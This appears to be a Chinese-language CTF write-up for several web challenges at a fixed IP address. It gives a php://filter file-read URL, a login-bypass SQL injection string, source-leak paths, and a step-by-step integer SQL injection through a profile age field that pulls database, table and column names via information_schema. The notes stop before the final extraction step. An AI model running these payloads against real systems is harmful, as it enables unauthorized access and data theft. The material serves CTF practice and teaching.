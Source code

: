 # web6 **好像被改了**
http://123.206.31.85:10025
new bugku web25



# web7 `伪协议`
http://123.206.31.85:10003/?op=php://filter/convert.base64-encode/resource=flag


# web8 `万能密码`
http://123.206.31.85:10004/login.php
username=admin' or '1'='1'%23&password=


# web8 **差最后一步 也好像被改了**
http://123.206.31.85:10008/
源码泄露
http://123.206.31.85:10008/.idea/workspace.xml
http://123.206.31.85:10008/www.tar.gz

login.php和register.php使用PDO预处理执行SQL语句防止SQL注入
![](https://ws1.sinaimg.cn/large/0074VeWzly1g2lk296x5gj30l20craam.jpg)
但是update.php中age没有进行任何防护
![](https://ws1.sinaimg.cn/large/0074VeWzly1g2lk2h2hmjj30sw013gli.jpg)
由于年龄的输入框限制了只能输数字，则需要更改一下页面源代码
删除type的number
然后输入
输入 1^1，点击更新资料后
返回0
则年龄处存在整型注入
```
1.获取当前数据库名
hex(database())
更新后显示
77656238
转换成字符后为
web8

2.获取表名
hex(select group_concat(table_name) from information_schema.tables where table_schema=database())
显示更新错误，后来才知道要在外面再加一层括号
hex((select group_concat(table_name) from information_schema.tables where table_schema=database()))
7573657273
users

3.获取表字段名
hex((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273))
数据太大，没有在输入框显示，在下方源代码中，转换成字符后为
id,username,password,nickname,age,description

4.获取数据




(select database())
(select group_concat(table_name) from information_schema.tables where table_schema = 0x77656238)
```
